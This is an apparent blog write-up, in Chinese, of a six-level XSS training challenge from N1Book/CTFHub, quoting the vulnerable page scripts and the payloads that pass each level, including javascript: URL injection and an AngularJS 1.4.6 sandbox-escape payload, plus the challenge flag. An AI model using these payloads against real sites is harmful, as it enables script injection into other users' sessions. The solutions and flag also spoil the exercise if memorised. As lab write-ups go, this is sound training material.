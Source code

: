 ```yaml
---
title: WriteUp-CTFHub-XSS闯关
date: 2024-02-20 22:25:58
categories: 
    - CTF-WriteUp
tags: 
    - XSS
description: N1Book-第二章Web进阶-XSS的魔力-XSS闯关
---
```

<!-- more -->

## 题目考点

- WEB
- XSS

## 解题思路

> 本环境为闯关形式，每过一关即可进入下一关,过关目标为利用XSS漏洞在页面执行alert函数

- level1
  - 设置`username=<script>alert("flag")</script>`，过关
    ![](level1.png)
- level2
  - 输入level1同样的payload，没有反应，查看网页源码，发现`</script>`闭合了原本的script标签，所以无法执行alert函数
  - 修改payload为`username=</script><script>alert("flag")</script>`，过关
    ![](level2-1.png)
- level3
  - 输入level1同样的payload同样没有反应，查看网页源码，似乎问题和level2一样
    ![](level3-1.png)
  - 使用level2同样的paload，过关
    ![](level3-2.png)
- level4
  - 查看网页源码，发现`jumpUrl`参数可以控制跳转的url：
    ![](level4-1.png)
    ```js
        <script type="text/javascript">
    	var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
    </script>
    ```
  - 所以基于JavaScript为协议，可以构造payload为`jumpUrl=javascript:alert("flag")`，过关
    ![](level4-2.png)
- level5
  - 输入level1同样的payload无效，查看网页源码：
    ```js
    <script type="text/javascript">
    if(getQueryVariable('autosubmit') !== false){
        var autoForm = document.getElementById('autoForm');
        autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
        autoForm.submit();
    }else{
        
    }
    function getQueryVariable(variable)
    {
            var query = window.location.search.substring(1);
            var vars = query.split("&");
            for (var i=0;i<vars.length;i++) {
                    var pair = vars[i].split("=");
                    if(pair[0] == variable){return pair[1];}
            }
            return(false);
    }
    </script>
    ```
  - 这段代码的意思是，如果`autosubmit`参数存在，则自动提交表单
  - 所以构造payload为`autosubmit=1&action=javascript:alert("flag")`，过关
    ![](level5.png)
- level6
  - 输入level1同样的payload没有反应，查看网页源码，发现使用了`AnjularJS`框架
    ```html
    <script src="https://cdn.staticfile.org/angular.js/1.4.6/angular.min.js"></script>
    ```
    ![](level6-1.png)
  - 搜索`AnjularJS`框架XSS漏洞，发现Angular(版本号小于1.6)内的典型XSS payload为`username={{7*7}}`，测试后发现确实存在XSS漏洞
    ![](level6-2.png)
  - 使用payload`{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert("flag")//');}}`进行沙箱逃逸，过关
    ![](level6-3.png)
- 完成所有关卡，获得flag
  ![](flag.png)

## FLAG

```plaintext
n1book{xss_is_so_interesting}
```

## 参考链接

- [AngularJS Sandbox Bypasses - 先知社区](https://xz.aliyun.com/t/4638)
- [BuuCTF[第二章 web进阶]XSS闯关_[第二章 web进阶]xss闯关 1-CSDN博客](https://blog.csdn.net/m_de_g/article/details/119085955)
- [Angular Js XSS漏洞_angularjs v1.4.6版本xss漏洞-CSDN博客](https://blog.csdn.net/qq_32393893/article/details/104923733)